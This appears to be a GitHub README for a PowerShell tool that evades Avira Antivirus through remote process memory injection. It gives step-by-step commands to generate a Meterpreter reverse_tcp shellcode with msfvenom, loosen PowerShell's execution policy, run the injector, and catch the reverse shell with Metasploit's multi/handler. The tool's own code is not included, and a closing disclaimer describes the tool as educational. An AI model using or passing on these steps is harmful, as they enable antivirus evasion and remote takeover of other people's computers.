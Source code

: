 # Bypass-Avira_Antivirus - Memory Evasion via Remote Process Memory Injection (Powershell)

Description

The Bypass-Avira_Antivirus tool is designed to bypass Avira Antivirus version 15.0.34.16-17570 using memory evasion techniques, specifically remote process memory injection. By using this technique, it becomes possible to execute a custom shellcode undetected by Avira Antivirus

Usage

1. Download Avira Antivirus version 15.0.34.16-17570: The software can be downloaded from [this link](https://www.filepuma.com/download/avira_free_antivirus_15.0.34.16-17570/download/).

2. Create a custom shell using Metasploit's msfvenom:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<port_you_listen> -f powershell

3. Insert the generated shellcode into exploit.ps1.

4. Before running the script, check the current Execution Policy:

powershell Get-ExecutionPolicy -Scope CurrentUser

5. If necessary, set the Execution Policy to Unrestricted:

powershell Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

6. Check the Execution Policy again to ensure it has been set correctly.

7. Execute the exploit by running exploit.ps1 in Powershell:

powershell ./exploit.ps1

8. Listen for the incoming shell using Metasploit:

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT <port_you_listen>
run

Disclaimer

This tool is provided for educational and research purposes only. It is essential to ensure you have proper authorization to conduct any security testing on a system. Unauthorized access to or use of computer systems may violate local and international laws. The authors disclaim any responsibility for illegal or unethical use of this tool.

Always seek written permission from the system owner or administrator before conducting any security testing on their systems.

Legal Notice

The usage of this tool may be subject to local and international laws and regulations. It is the user's responsibility to comply with these laws. The authors of this tool shall not be held responsible for any legal issues arising from the misuse of this tool.

Acknowledgments

The authors would like to acknowledge the Metasploit Project and Avira Antivirus for their respective software components used in this tool.

Contact Information

For any inquiries or feedback, please contact the authors at your_email@example.com.
